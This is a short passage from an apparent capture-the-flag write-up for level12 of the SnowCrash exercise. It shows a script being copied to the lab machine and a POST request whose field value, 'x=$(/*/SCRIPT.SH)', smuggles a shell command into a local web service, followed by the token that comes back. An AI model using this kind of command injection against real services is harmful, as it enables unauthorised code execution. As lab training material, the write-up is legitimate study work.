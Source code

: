 scp -r -P 4242 ./level12/ressources/SCRIPT.SH  level12@10.13.200.28:/tmp
chmod +x /tmp/SCRIPT.SH
curl localhost:4646 -d 'x=$(/*/SCRIPT.SH)'
level12@SnowCrash:~$ cat /tmp/out
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
